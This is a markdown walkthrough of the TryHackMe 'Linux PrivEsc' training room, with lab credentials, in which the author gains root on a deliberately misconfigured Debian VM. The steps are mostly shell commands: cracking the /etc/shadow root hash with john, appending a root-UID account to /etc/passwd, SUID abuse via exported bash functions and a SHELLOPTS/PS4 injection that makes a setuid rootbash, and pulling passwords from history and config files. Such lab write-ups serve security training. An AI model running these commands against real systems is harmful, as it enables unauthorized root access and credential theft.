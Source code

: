 <!-- TOC -->

- [Linux PrivEsc](#linux-privesc)
    - [Weak File Permissions - Readable /etc/shadow](#weak-file-permissions---readable-etcshadow)
    - [Weak File Permissions - Writable /etc/passwd](#weak-file-permissions---writable-etcpasswd)
    - [Sudo - Shell Escape Sequences](#sudo---shell-escape-sequences)
    - [Sudo - Environment Variables](#sudo---environment-variables)
    - [Cron Jobs - PATH Environment Variable](#cron-jobs---path-environment-variable)
    - [SUID / SGID Executables - Shared Object Injection](#suid--sgid-executables---shared-object-injection)
    - [SUID / SGID Executables - Environment Variables](#suid--sgid-executables---environment-variables)
    - [SUID / SGID Executables - Abusing Shell Features #1](#suid--sgid-executables---abusing-shell-features-1)
    - [SUID / SGID Executables - Abusing Shell Features #2](#suid--sgid-executables---abusing-shell-features-2)
    - [Passwords & Keys - History Files](#passwords--keys---history-files)
    - [Passwords & Keys - Config Files](#passwords--keys---config-files)

<!-- /TOC -->

# Linux PrivEsc

[Linux PrivEsc Room](https://tryhackme.com/room/linuxprivesc)

Practice your Linux Privilege Escalation skills on an intentionally misconfigured Debian VM with multiple ways to get root! SSH is available. Credentials: user:password321

| Title | IP Address |
| :---- | :---- |
| Linux PrivEsc | `1*.**.*.***` |

## Weak File Permissions - Readable /etc/shadow

```bash
cat /etc/shadow | grep root
```

> `root:$6$T*/****K.**M*OA****B*****TG******IH****OWAI***VITLL*V**X*RDJXET..****.******Z*M**D*B**G*JI*:17298:0:99999:7:::`

LHOST:

```bash
john hash -w=/usr/share/wordlists/rockyou.txt
```

> `Loaded 1 password hash (s**********, crypt(3) $6$ [SHA512 256/256 AVX2 4x])`

> `p********** (?)`

## Weak File Permissions - Writable /etc/passwd

LHOST:

```bash
openssl passwd password
```

> `Q*****I/C*J*E`

RHOST:

Using `newroot:password`

```bash
echo "newroot:Qj4ktrI/C5JyE:0:0:root:/root:/bin/bash" >> /etc/passwd
su newroot
id
```

> `u**=*(****) ***=*(****) ******=*(****)`

## Sudo - Shell Escape Sequences

```bash
sudo -l
```

## Sudo - Environment Variables

```bash
ldd /usr/sbin/apache2
```

## Cron Jobs - PATH Environment Variable

```bash
cat /etc/crontab
```

> `/****/****:/***/*****/****:/***/*****/***:/****:/***:/***/****:/***/***`

## SUID / SGID Executables - Shared Object Injection

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

## SUID / SGID Executables - Environment Variables

```bash
strings /usr/local/bin/suid-env
```

## SUID / SGID Executables - Abusing Shell Features (#1)

If `bash` versions < `4.2-048`:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

##  SUID / SGID Executables - Abusing Shell Features (#2)

If `bash` version < `4.4`:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

## Passwords & Keys - History Files

```bash
cat ~/.*history | less
```

## Passwords & Keys - Config Files

```bash
cat myvpn.ovpn
cat /etc/o******/****.txt 
```

> `root p**********`

